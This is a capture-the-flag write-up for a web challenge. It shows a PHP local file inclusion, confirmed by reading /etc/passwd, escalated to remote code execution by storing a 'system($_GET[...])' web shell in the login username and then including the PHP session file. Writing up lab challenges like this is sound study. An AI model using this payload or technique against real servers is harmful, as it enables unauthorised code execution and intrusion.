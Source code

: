 # web01 (Point: 210)

![web01](images/1.1.png)

## TL;DR

**LFI to RCE via session file**

## Vulnerability

### LFI

* http://15.165.80.50/?page=register was the register page
* http://15.165.80.50/?page=/./etc/passwd split the passwd file, thus LFI confirmed

![web01.2](images/1.2.png)

Now we just need a file with our controlled content and include it to execute php.

Usually username identity is sessions. Server uses session to identify the user and this session is maintained by server in a session file which is located at /var/lib/php/sessions/sess_PHPSESSID

So when we log in with the following username, our username will be stored in `/var/lib/php/sessions/sess_PHPSESSID` and thus we can include it to execute arbritrary php
```
username = <?php system($_GET[EXP]); ?>
```
![web01.3](images/1.3.png)

### EXPLOIT

* Login into web app to make server write your username in session file and note the PHPSESSID Cookie (in my case PHPSESSID:9evgl9q9m3c9ct6hl3599js7j4)
* include the file http://15.165.80.50/?page=/./var/lib/php/sessions/sess_9evgl9q9m3c9ct6hl3599js7j4 and we have shell.

### FLag

![web1.4](images/1.4.png)

* WhiteHat{Local_File_Inclusion_bad_enough_??} 



